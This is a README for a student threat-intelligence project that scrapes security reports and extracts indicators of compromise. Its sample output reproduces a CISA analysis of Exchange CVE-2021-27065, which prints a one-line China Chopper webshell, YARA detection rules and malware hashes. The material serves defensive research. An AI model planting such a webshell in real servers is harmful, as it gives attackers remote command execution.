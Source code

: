 # Capstone-MISP-Module

- [Capstone-MISP-Module](#capstone-misp-module)
  - [How to run the spider module](#how-to-run-the-spider-module)
## 1) How to run the spider module
1. Navigate to `Capstone-MISP-Module/web-crawler`
2. If not done already, install project dependencies with `pipenv install`
3. Open the python virtual environment for spider module with `pipenv shell`
4. Navigate back to root directory: `Capstone-MISP-Module/web-crawler`
5. Run the spider with `scrapy runspiderweb-crawler/infosecspider/spiders/scraper.py`, where `scraper.py` is the name of the scraping script in `infosecspider/spiders`. This will create an `/output/` folder inside the directory of `Capstone-MISP-Module/` which will contain all the web-scraped urls/blogs posts/technical reports.

- Viewing the initial folders created in /Capstone-MISP-Module/output/:
<div align="center"><img alt="First pass OCR transcription" width="400px" src="images/outputfoldervanilla.png"></div>


## 2) Setting up and How to run the Indicators Of Compromise (IOC) extraction module on the /outputs/ folder generated from step 1
1. Navigate to `Capstone-MISP-Module/`
2. `unzip cyobstract.zip` #Cyobstract IOC extraction tool authored by Sam-Perl, et al.
3. `python cyobstract/setup.py install` #install cyobstract dependencies
4. `pip install --upgrade --force-reinstall progress` #fixes library errors

### Sample code of how to utilize the initiate_ioc_extraction_main function. This function  and extracts all IOCs utilizing Cyobstract module

The parameters this function takes are:
  * path_outputs= takes the '/output' folder path from Section 1, where the scraped webpages are location in JSON format
  * view_scraping_within_last_hours= filter web-scraped-results based on the number of hours (note: this time is set when we run scraper.py from Section 1, and that all urls are scanned every time (to check for blog/technical reports updates, which might contain new IOCs)

```bash
from util.ioc_extract import initiate_ioc_extraction_main

#returns a dictionary of dicts or None
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(dictionary)
```

### Partial sample of output on a CISA analysis-report (url: https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d)
```bash
{'cisa': {'20210429-2315': {'ar21-072d.json': {'article_url': 'https://us-cert.cisa.gov/ncas/analysis-reports/ar21-072d',
    'asn': (),
    'asnown': (),
    'cc': ('China',),
    'cve': ('CVE-2021-26855', 'CVE-2021-27065'),
    'data': '\n\t\t\tNotification\n\n\t\t\t\n\t\t\tThis report is provided "as is" for informational purposes only. The Department of Homeland Security (DHS) does not provide any warranties of any kind regarding any information contained herein. The DHS does not endorse any commercial product or service referenced in this bulletin or otherwise.\n\n\t\t\tThis document is marked TLP:WHITE--Disclosure is not limited. Sources may use TLP:WHITE when information carries minimal or no foreseeable risk of misuse, in accordance with applicable rules and procedures for public release. Subject to standard copyright rules, TLP:WHITE information may be distributed without restriction. For more information on the Traffic Light Protocol (TLP), see http://www.us-cert.gov/tlp.\n\n\t\t\tFor a downloadable copy of IOCs, see: MAR-10329297-1.v1.stix.\n\t\t\t\n\n\t\t\tSummary\n\n\t\t\t\n\t\t\tDescription\n\n\t\t\tCISA received two unique files for analysis. These files appear to contain configuration data for two different Microsoft Exchange Offline Address Book (OAB) Virtual Directories (VD) extracted from a Microsoft Exchange Server. Both output files show malicious modifications for the ExternalUrl parameters for these two OAB VDs on the targeted Exchange Servers. In one of the OAB VDs, the ExternalUrl parameter contains a "China Chopper" webshell which may permit a remote operator to dynamically execute JavaScript code on the compromised Microsoft Exchange Server. The second file is modified with an authentication key.\n\n\t\t\tSubmitted Files (2)\n\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd (2XJHwN19.aspx)\n\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8 (UwSPMsFi.aspx)\n\t\t\t\n\n\t\t\tFindings\n\n\t\t\t\n\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\n\t\t\tTags\n\n\t\t\tbackdoortrojanwebshell\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\tUwSPMsFi.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2186 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tHTML document, ASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t78564702783ba738aa6a920f3b15a202\n\t\t\t\t\tSHA1\n\t\t\t\t\t\ta75fa74ae35ce20c9cfc273c219ef58f1c4714a6\n\t\t\t\t\tSHA256\n\t\t\t\t\t\td637b9a4477778a2e32a22027a86d783e1511e999993aad7dca9b7b1b62250b8\n\t\t\t\t\tSHA512\n\t\t\t\t\t\t63afff12ac7cfd65ba31aad61bab534040fc3ff8b782336fcdbe171bf43f733734770c5f11bfbf9f4b5a1beaf279e8ad8d6509ff6e07b7afba098a8e6ba52a6c\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t24:kNrde9/xL+rJTh91Q/PSR6j0SzMaEVMr6j71idfhLhgupVFgdUYC2E4ONF0qp0Bz:kNrdezC1BO0KM5QZLh9pV/YE4ONF0qBW\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.662408\n\t\t\t\t\tAntivirus\n\n\t\t\tAhnlab\n\t\t\t\t\t\tExploit/ASP.Cve-2021-27065.S1406\n\t\t\t\t\tAvira\n\t\t\t\t\t\tEXP/CVE-2021-27065.1\n\t\t\t\t\tBitDefender\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tClamAV\n\t\t\t\t\t\tAsp.Trojan.Webshell0321-9840176-0\n\t\t\t\t\tEmsisoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112 (B)\n\t\t\t\t\tIkarus\n\t\t\t\t\t\tExploit.ASP.CVE-2021-27065\n\t\t\t\t\tLavasoft\n\t\t\t\t\t\tGeneric.ASP.WebShell.H.48A3B112\n\t\t\t\t\tMcAfee\n\t\t\t\t\t\tExploit-CVE2021-27065.a\n\t\t\t\t\tMicrosoft Security Essentials\n\t\t\t\t\t\tExploit:ASP/CVE-2021-27065\n\t\t\t\t\tQuick Heal\n\t\t\t\t\t\tCVE-2021-26855.Webshll.41350\n\t\t\t\t\tSophos\n\t\t\t\t\t\tTroj/WebShel-L\n\t\t\t\t\tSymantec\n\t\t\t\t\t\tTrojan.Chinchop\n\t\t\t\t\tTrendMicro\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tTrendMicro House Call\n\t\t\t\t\t\tBackdoo.DDEA7357\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_01 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Webshellz"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 65 76 61 6C 28 52 65 71 75 65 73 74 5B 22 [1-32] 5D 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 65 76 61 6C 28 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 28 52 65 71 75 65 73 74 2E 49 74 65 6D 5B [1-36] 5D 29 29 2C 22 75 6E 73 61 66 65 22 29 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s3 = { 49 4F 2E 53 74 72 65 61 6D 57 72 69 74 65 72 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s4 = { 57 72 69 74 65 28 52 65 71 75 65 73 74 2E 46 6F 72 6D 5B [1-24] 5D }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 or ($s1 and $s2) or ($s3 and $s4)\n\t\t\t\t}\n\t\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit an OAB VD in Internet Information Services (IIS) on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The OAB ExternalUrl parameter has been modified by a remote operator to include a "China Chopper" webshell which is likely an attempt to gain unauthorized access for dynamic remote code execution against a targeted Microsoft Exchange Server. In this file, the OAB ExternalUrl parameter was configured to accept JavaScript code which will be directly executed on the target system. The modification of the ExternalUrl parameter suggests the operator can dynamically submit queries to this Exchange OAB VD.\n\t\t\tThe ExternalUrl designation that normally specifies the Uniform Resource Locator (URL) used to connect to the VD from outside the firewall has been replaced with the following code:\n\t\t\t--Begin Code--\n\t\t\thxxp[:]//f/<script language="JScript" runat="server">function Page_Load(){eval(Request["[REDACTED]"],"unsafe");}</script>\n\t\t\t--End Code--\n\t\t\tNote: The hard-coded key used for authentication was redacted from the code above.\n\t\t\tThis code allows an attacker to access the shell using a password. Once accessed, the attacker is able to execute commands on the page with server (system) level privileges.\n\t\t\t\n\n\t\t\t\n\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\n\t\t\tTags\n\n\t\t\tbackdoor\n\n\t\t\tDetails\n\n\t\t\tName\n\t\t\t\t\t\t2XJHwN19.aspx\n\t\t\t\t\tSize\n\t\t\t\t\t\t2177 bytes\n\t\t\t\t\tType\n\t\t\t\t\t\tASCII text, with CRLF line terminators\n\t\t\t\t\tMD5\n\t\t\t\t\t\t4580f7f2f2d7ac1af26693132c2e756d\n\t\t\t\t\tSHA1\n\t\t\t\t\t\t1fead8d37f73b87ab75d0096d49b797afe7d0445\n\t\t\t\t\tSHA256\n\t\t\t\t\t\t31a750f8dbdd5bd608cfec4218ccb5a3842821f7d03d0cff9128ad00a691f4bd\n\t\t\t\t\tSHA512\n\t\t\t\t\t\tfceddb90d8a9445a726eefa6df7fe928006d6a29279138e1b7906534d3b188d08eda62a939617a7944889d8e2e160417600947f48d5704cb537e64b2523ba1a4\n\t\t\t\t\tssdeep\n\t\t\t\t\t\t48:kNrdNC1BS67PQZLh9pVn3tE4ONF0qny/W:ktdcVM7n3mNCqny/W\n\t\t\t\t\tEntropy\n\t\t\t\t\t\t4.495728\n\t\t\t\t\tAntivirus\n\n\t\t\tSophos\n\t\t\t\t\t\tTroj/ASPDoor-W\n\t\t\t\t\tYARA Rules\n\n\t\t\trule CISA_10328929_02 : trojan webshell exploit CVE_2021_27065\n\t\t\t\t{\n\t\t\t\t\xa0\xa0\xa0meta:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Author = "CISA Code & Media Analysis"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Incident = "10328929"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Date = "2021-03-17"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Last_Modified = "20210317_2200"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Actor = "n/a"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Category = "Trojan WebShell Exploit CVE-2021-27065"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Family = "HAFNIUM"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0Description = "Detects CVE-2021-27065 Exchange OAB VD MOD"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0MD5_1 = "ab3963337cf24dc2ade6406f11901e1f"\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0SHA256_1 = "c8a7b5ffcf23c7a334bb093dda19635ec06ca81f6196325bb2d811716c90f3c5"\n\t\t\t\t\xa0\xa0\xa0strings:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 = { 4F 66 66 6C 69 6E 65 41 64 64 72 65 73 73 42 6F 6F 6B 73 }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s1 = { 3A 20 68 74 74 70 3A 2F 2F [1] 2F }\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s2 = { 45 78 74 65 72 6E 61 6C 55 72 6C 20 20 20 20 }\n\t\t\t\t\xa0\xa0\xa0condition:\n\t\t\t\t\xa0\xa0\xa0 \xa0\xa0\xa0$s0 and $s1 and $s2\n\t\t\t\t}\n\t\t\tssdeep Matches\n\n\t\t\tNo matches found.\n\n\t\t\tDescription\n\n\t\t\tThis file is an OAB configuration file from a legitimate Set-OABVirtualDirectory cmdlet. This file is typically used to edit a OAB VD in IIS on Microsoft Exchange Servers. The Exchange OAB VD is utilized to access Microsoft Exchange address lists. The configuration has been modified with a key in the \'ExternalUrl\' field. The key is most likely used for authentication to the server.\n\t\t\t\n\n\t\t\tMitigation\n\n\t\t\t\n\t\t\tIf you find these webshells as you are examining your system for Microsoft Exchange Vulnerabilities, please visit the https://us-cert.cisa.gov/remediating-microsoft-exchange-vulnerabilities website for further information on remediation.\n\t\t\t\n\n\t\t\tRecommendations\n\n\t\t\t\n\t\t\tCISA recommends that users and administrators consider using the following best practices to strengthen the security posture of their organization\'s systems. Any configuration changes should be reviewed by system owners and administrators prior to implementation to avoid unwanted impacts.\n\n\t\t\tMaintain up-to-date antivirus signatures and engines.\n\t\t\t\tKeep operating system patches up-to-date.\n\t\t\t\tDisable File and Printer sharing services. If these services are required, use strong passwords or Active Directory authentication.\n\t\t\t\tRestrict users\' ability (permissions) to install and run unwanted software applications. Do not add users to the local administrators group unless required.\n\t\t\t\tEnforce a strong password policy and implement regular password changes.\n\t\t\t\tExercise caution when opening e-mail attachments even if the attachment is expected and the sender appears to be known.\n\t\t\t\tEnable a personal firewall on agency workstations, configured to deny unsolicited connection requests.\n\t\t\t\tDisable unnecessary services on agency workstations and servers.\n\t\t\t\tScan for and remove suspicious e-mail attachments; ensure the scanned attachment is its "true file type" (i.e., the extension matches the file header).\n\t\t\t\tMonitor users\' web browsing habits; restrict access to sites with unfavorable content.\n\t\t\t\tExercise caution when using removable media (e.g., USB thumb drives, external drives, CDs, etc.).\n\t\t\t\tScan all software downloaded from the Internet prior to executing.\n\t\t\t\tMaintain situational awareness of the latest threats and implement appropriate Access Control Lists (ACLs).\n\t\t\tAdditional information on malware incident prevention and handling can be found in National Institute of Standards and Technology (NIST) Special Publication 800-83, "Guide to Malware Incident Prevention & Handling for Desktops and Laptops".\n\t\t\t\n\n\t\t\tContact Information\n\n\t\t\t\n\t\t\t1-888-282-0870\n\t\t\t\tCISA Service Desk (UNCLASS)\n\t\t\t\tCISA SIPR (SIPRNET)\n\t\t\t\tCISA IC (JWICS)\n\t\t\tCISA continuously strives to improve its products and services. You can help by answering a very short series of questions about this product at the following URL: https://us-cert.cisa.gov/forms/feedback/\n\t\t\t\n\n\t\t\tDocument FAQ\n\n\t\t\t\n\t\t\tWhat is a MIFR? A Malware Initial Findings Report (MIFR) is intended to provide organizations with malware analysis in a timely manner. In most instances this report will provide initial indicators for computer and network defense. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tWhat is a MAR? A Malware Analysis Report (MAR) is intended to provide organizations with more detailed malware analysis acquired via manual reverse engineering. To request additional analysis, please contact CISA and provide information regarding the level of desired analysis.\n\n\t\t\tCan I edit this document? This document is not to be edited in any way by recipients. All comments or questions related to this document should be directed to the CISA at 1-888-282-0870 or CISA Service Desk.\n\n\t\t\tCan I submit malware to CISA? Malware samples can be submitted via three methods:\n\n\t\t\tWeb: https://malware.us-cert.gov\n\t\t\t\tE-Mail: submit@malware.us-cert.gov\n\t\t\t\tFTP: ftp.malware.us-cert.gov (anonymous)\n\t\t\tCISA encourages you to report any suspicious activity, including cybersecurity incidents, possible malicious code, software vulnerabilities, and phishing-related scams. Reporting forms can be found on CISA\'s homepage at www.cisa.gov.\n\t\t\t\n\t\t\t\n\t\t',
    'email': ('submit@malware.us-cert.gov',),
    'filename': (),
    'filepath': (),
    'fqdn': ('ftp.malware.us-cert.gov',
     'malware.us-cert.gov',
     'us-cert.cisa.gov',
     'www.cisa.gov',
     'www.us-cert.gov'),
    'incident': (),
    'ipv4addr': (),
    'ipv4cidr': (),
    'ipv4range': (),
    'ipv6addr': (),
    'ipv6cidr': (),
    'ipv6range': (),
    'isp': (),
    'malware': ('asp.trojan.webshell0321-9840176-0',
     'exp/cve-2021-27065.1',
     'exploit-cve2021-27065.a',
     'exploit.asp.cve-2021-27065',
     'exploit/asp.cve-2021-27065.s1406',
     'exploit:asp/cve-2021-27065',
     'generic.asp.webshell.h.48a3b112',
     'troj/aspdoor-w',
     'troj/webshel-l',
     'trojan.chinchop'),
    'md5': ('4580f7f2f2d7ac1af26693132c2e756d',
     '78564702783ba738aa6a920f3b15a202',
     'ab3963337cf24dc2ade6406f11901e1f'), ...
```

## 3) (Optional) Expanding the current scraped urls through the use of google searches (blogs/technical reports/hacker news, etc) implemented in Capstone-MISP-Module/util/ioc_extract_expander.py

A powerful function of our tool comes from the power of allowing a user to expand their database by selecting a previously extracted ioc from a webpage/article for a deep search of the internet. Say you are a security expert and want to get as much information on a new malware with a particular IOC (say a particular MD5 hash). You can do this by running the function below, which will perform X number of google searches for your desired IOC, update the '/Capstone-MISP-Module/output/' folder with the new scraped-websites, and return all the extracted IOCs from how many google searches you specify. 

The parameters this function takes are:
  * dictionary= dictionary of IOCs you have scraped so far
  * article_lookup = name of an article which contains an IOC category you are interested in, i.e. MD5
  * num_google_results = how many google hits do you desired to be scraped for each IOC in the chosen IOC category
  * search_speed = speed of google searches (warning: do not set too low, or may be IP blocked by Google)


### Sample code to run ioc_extract_expander.py for one article
```bash
from util.ioc_extract import initiate_ioc_extraction_main
from util.ioc_extract_expander import recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches


#returns a dictionary of dicts or None (same as Section 2 above)
dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

#updates 'Capstone-MISP-Module/output' folder with new entries through google searches
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup='ar21-084a.json', ioc='md5', num_google_results=10,search_speed=3)

print('\n----------------Break------------\n')

#We call again initiate_ioc_extraction_main() to generate a bigger dictionary utilizing all the newly google queried articles for the extraction of more IOCs above
bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 
print(bigger_dictionary) #Will print a bigger dictionary containing all new articles. Won't show output here as it is a long dictionary.
```
### You could even call 'recursive_ioc_extractor_....' several times in a row as well (example use case: interested in obtaining more information of 2 new malwares through their MD5 hashes) (*Note, this code takes around 30 minutes as we are scraping one particular big article which contain 43 MD5 Hashes in order to create a robust dataset signature in this example*):
```bash
from util.ioc_extract import initiate_ioc_extraction_main
from util.ioc_extract_expander import recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches

dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

article_1= 'ar21-084a.json' #contains 5 md5 hashes
article_2= 'unc2447-sombrat-and-fivehands-ransomware-sophisticated-financial-threa.json' #contains 43 md5 hashes
selected_ioc_type = 'md5'
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_1, ioc=selected_ioc_type, num_google_results=10,search_speed=3) #contains 5 md5 hashes
recursive_ioc_extractor_from_article_name_and_ioc__over_google_searches(dictionary=dictionary, article_lookup=article_2, ioc=selected_ioc_type, num_google_results=10,search_speed=3) #contains 43 md5 hashes

even_bigger_dictionary = initiate_ioc_extraction_main(path_outputs='output/', view_scraping_within_last_hours=1) 

```

- Demonstration of expansion of scraped-websites folder in /Capstone-MISP-Module/output/ (compare to Section 1). We can observe we have information of several other reputable websites such as McAfee:

<div align="center"><img alt="First pass OCR transcription" width="600px" src="images/outputfolderexpanded2.png"></div>

